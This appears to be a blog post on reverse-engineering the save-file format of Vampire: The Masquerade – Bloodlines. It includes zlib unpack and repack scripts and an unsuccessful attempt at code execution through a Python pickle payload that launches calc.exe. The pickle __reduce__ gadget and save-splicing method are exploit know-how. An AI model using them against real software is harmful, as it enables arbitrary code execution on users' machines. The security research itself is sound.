 ```yaml
---
layout: default
title: "save-splicing"
date: 2024-09-03 00:01:00 -0000
tags: vtmb source save
---
```


Sorry for the hiatus. It will happen again. In the last post I alluded to something yet more cursed lurking in the engine. I thought I found a flaw with a trivial route to exploit, but it turns out it's going to require more than two braincells. Maybe it'll make a good story for FailNight.

This is not to say it has been pointless. Today's post will be about the save file structure, and the failed first attempt exploiting. However, this also yielded some information about the loading process, which I'll be continuing with in a later post. Most of this is likely specific to Vampire, since the engine leaves a lot of room for developers to implement their own data structures.

I touched on how it works in [a previous post](/breaking-videogames/), but this is going to be a little more detailed. At the basic level, a save file is organized into blocks. [The Valve Developer Wiki has some information on this.](https://developer.valvesoftware.com/wiki/Save_Game_Files)

VtMB has one or more blocks of data belonging to particular maps. These are named `sp_foo.hl1`, `sp_foo.hl2`, and so on. For now, it's unclear what exactly controls the number of blocks, but the size of the data is a probable factor. I was somewhat inaccurate when I said each block starts with a zlib header: the block itself has a header with the name of the block and some size information. As an additional twist, a block may contain multiple zlib streams. Seemingly, this is due to a limit of 0x80000 bytes on the data to be compressed. If the data exceeds that size, the excess is split off and compressed into a new zlib stream. The streams are stored in a length-value format with no padding in between. Put together it looks something like this:

```
header1 (block/map name, e.g. sp_foo.hl1) 
padding? (236 bytes)
total size of decompressed data (4 bytes)
stream 1 compressed length (4 bytes)
zlib stream 1
stream 2 compressed length (4 bytes)
zlib stream 2
header2 (e.g. sp_foo.hl2)
...
```

I'll be referring to a block in the .sav file as a ".sav block".

Decompression is fairly straightforward. Iterate through the .sav block, decompress each individual stream, and concatenate the results. Since I didn't know beforehand whether concatenation needs to happen before or after decompression, I manually extracted the streams into intermediate files using the length information, then decompressed them with this Python script:

```
import zlib
import sys

if len(sys.argv) < 2:
    print(f"Usage: {sys.argv[0]} <filename>")

with open(sys.argv[1], "rb") as f:
    compressed = f.read()
    decompressed = zlib.decompress(compressed)
    outfilename = sys.argv[1] + ".decompressed"
    with open(outfilename, "wb") as wf:
        wf.write(decompressed)

```

Once this was done, I just concatenated the decompressed chunks.

Alternatively, VPKTool from the [Unofficial Bloodlines SDK](https://www.moddb.com/mods/vtmb-unofficial-patch/downloads/bloodlines-sdk) also has a function for extracting save files.

----

As a minor note, after doing some Offset Numerology, it seems very possible the game is using a static, fixed size buffer to write the header, because it leaks parts of filenames from previous blocks:

![](/breaking-videogames/assets/genesisdevice_hl2.jpg)
![](/breaking-videogames/assets/genesisdevice_hl3.jpg)
![](/breaking-videogames/assets/sp_theatre.jpg)

`_found_range.wav` is probably a fragment of a filename included in the Unofficial Patch, `tgt_discipline_no_target_found_range.wav`. The length of this string would also line up exactly with the start of the header.

236 is pretty close to 256, a round number in hexadecimal. If we assume a fixed size of 256 for the block name, here is how a block would look:

```
header1 (block/map name, 256 bytes)
unknown/always 0? (4 bytes)
total size of decompressed data (4 bytes)
stream 1 compressed length (4 bytes)
zlib stream 1
stream 2 compressed length (4 bytes)
zlib stream 2
header2
[...]
```

----

After decompressing, we have another block-based format on our hands:

I'll be calling the resulting container "VALV container" based on the magic value at the start. To disambiguate from .sav blocks, I'll be calling these inner blocks "VALV blocks".

Here's an ASCII rendition of how the containers are nested inside each other:

```
.sav file
|
|-> .sav block "foo.hl1"
|   |
|   |-> zlib stream |
|   |-> zlib stream |---> VALV container
|   |-> zlib stream |     |
|                         |-> VALV block "Foo"
|                         |-> VALV block "Bar"
|
|-> .sav block "foo.hl2"
|   |
|   |-> zlib stream |
|   |-> zlib stream |---> VALV container
|   |-> zlib stream |
```

----

Now we get to what I thought was an easy exploit. After finding a VALV block called "Python", I also noticed the game calls `pickle.load()` during loading. Said block contains strings that correspond to names of entities in the game. 

![](/breaking-videogames/assets/pythonblock.jpg)

Vampire uses Python for mission scripting, so this started to look interesting.

I briefly tried to match these to the pickle protocol, but realized it'd be faster to just try to see if I can get the game to load something I inserted. Under the assumption that these are pickled Python objects, I generated a simple exploit payload:


```
class Exploit():
    def __reduce__(self):
        import nt
        return(nt.execv, ('C:\\Windows\\system32\\calc.exe',['x']))
        
import pickle

with open("sampleexploit.dump", "wb") as fout:
    pickle.dump(Exploit(), fout, protocol=1)
```

The resulting `sampleexploit.dump`:

```
Hex View  00 01 02 03 04 05 06 07  08 09 0A 0B 0C 0D 0E 0F
 
00000000  63 6E 74 0A 65 78 65 63  76 0A 71 00 28 58 1C 00  cnt.execv.q.(X..
00000010  00 00 43 3A 5C 57 69 6E  64 6F 77 73 5C 73 79 73  ..C:\Windows\sys
00000020  74 65 6D 33 32 5C 63 61  6C 63 2E 65 78 65 71 01  tem32\calc.exeq.
00000030  5D 71 02 58 01 00 00 00  78 71 03 61 74 71 04 52  ]q.X....xq.atq.R
00000040  71 05 2E                                          q..
```

This didn't look like it could have come from the savefile, but I chalked this up to there being different versions of the protocol. Something to try adjusting later, if it fails.

Though there's a visible structure in the VALV block, the boundary between serialized objects is ambiguous: they either end or begin with 0x1C (ASCII '6').

![](/breaking-videogames/assets/6infront.jpg)
![](/breaking-videogames/assets/6atend.jpg)

With no way to tell for now, this is another parameter to account for later. The potential versions are starting to add up already:

```
                       |  protocol=1 | protocol=2 |
---------------------------------------------------
objects start with '6' |      x      |            |
---------------------------------------------------
objects end with '6'   |             |            |
---------------------------------------------------
```

Anyway, after replacing an object in the extracted and concatenated VALV container, all that's left is to pack it back up again. To do so, the edited stream needs to be split up again into 0x80000 byte chunks, compressing the them separately with zlib, e.g.:

```
import zlib
import sys

if len(sys.argv) < 2:
    print(f"Usage: {sys.argv[0]} <filename>")

with open(sys.argv[1], "rb") as f:
    decompressed = f.read()
    compressed = zlib.compress(decompressed, level=9)
    outfilename = sys.argv[1] + ".compressed"
    with open(outfilename, "wb") as wf:
        wf.write(compressed)
```

The new compressed streams can be put in the .hl1 block in length-value format. Since the size of the VALV container has changed, the field after the header/padding indicating the length of the decompressed data also needs to be changed.

Upon loading the save:

![](/breaking-videogames/assets/expected_ETABLE.jpg)


...turns out this wasn't Python at all. I'm going to have to apologize: I led you down a garden path to an anticlimactic ending. But this is useful information. First of all, pickle protocol versions turn out to be a non-concern, because this is a Source Engine entity. And we learn where it starts reading:

![](/breaking-videogames/assets/read_offset.jpg)

(Unfortunately, this is not yet conclusive. You'll notice I forgot to add a null byte after `weapon_physcannon`, which could offset the first field. Additionally, while the format relies on data descriptions compiled into the application, but something tells me the `e` in `execv` could've been interpreted as the type of the following field.)

Finally, the error message itself is unique, and ultimately this was what helped me locate `CRestore::ReadFields` in the compiled binary. More on this and data descriptions later.

----

Bonus:

![](/breaking-videogames/assets/ctriggerelectricbugaloo.jpg)

[Back to index](/breaking-videogames/)